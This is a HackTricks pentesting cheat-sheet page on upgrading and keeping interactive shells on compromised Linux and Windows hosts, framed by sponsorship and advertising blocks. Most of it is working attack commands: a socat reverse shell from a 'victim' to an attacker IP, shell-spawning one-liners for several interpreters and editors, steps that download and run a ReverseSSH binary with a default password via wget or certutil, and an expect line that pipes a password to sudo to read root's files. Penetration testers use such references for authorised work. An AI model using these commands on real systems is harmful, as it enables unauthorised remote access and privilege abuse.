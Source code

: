# Full TTYs

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

{% hint style="danger" %}
<img src="../../.gitbook/assets/SB logo black_034525.png" alt="" data-size="original">\
_A **digital transformation** tailored to your organization is unique. It also comes with its **risks**. **Defend yourself against hackers**. Get protection before it's too late. **Talk to the professionals at Securityboat**:_

{% embed url="https://securityboat.in/contact-us" %}
{% endhint %}

## Full TTY

Note that the shell you set in the `SHELL` variable **must** be **listed inside** _**/etc/shells**_ or `The value for the SHELL variable was not found the /etc/shells file This incident has been reported`. Also note that the next snippets only work in bash. If you're in a zsh, change to a bash before obtaining the shell by running `bash`.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

```bash
script -qc /bin/bash /dev/null
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### **Spawn shells**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## ReverseSSH

A convenient way for **interactive shell access**, as well as **file transfers** and **port forwarding**, is dropping the statically-linked ssh server [ReverseSSH](https://github.com/Fahrj/reverse-ssh) onto the target.

Below is an example for `x86` with upx-compressed binaries. For other binaries, check [releases page](https://github.com/Fahrj/reverse-ssh/releases/latest/).

1. Prepare locally to catch the ssh port forwarding request:

```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```

* (2a) Linux target:

```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```

* (2b) Windows 10 target (for earlier versions, check [project readme](https://github.com/Fahrj/reverse-ssh#features)):

```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```

* If the ReverseSSH port forwarding request was successful, you should now be able to log in with default password `letmeinbrudipls` in the context of the user running `reverse-ssh(.exe)`:

```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```

## No TTY

If for some reason you cannot obtain a full TTY you **still can interact with programs** that expects user input. In the following example, the password is passed to `sudo` to read a file:

```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```

{% hint style="danger" %}
<img src="../../.gitbook/assets/SB logo black_034525.png" alt="" data-size="original">\
_A **digital transformation** tailored to your organization is unique. It also comes with its **risks**. **Defend yourself against hackers**. Get protection before it's too late. **Talk to the professionals at Securityboat**:_

{% embed url="https://securityboat.in/contact-us" %}
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
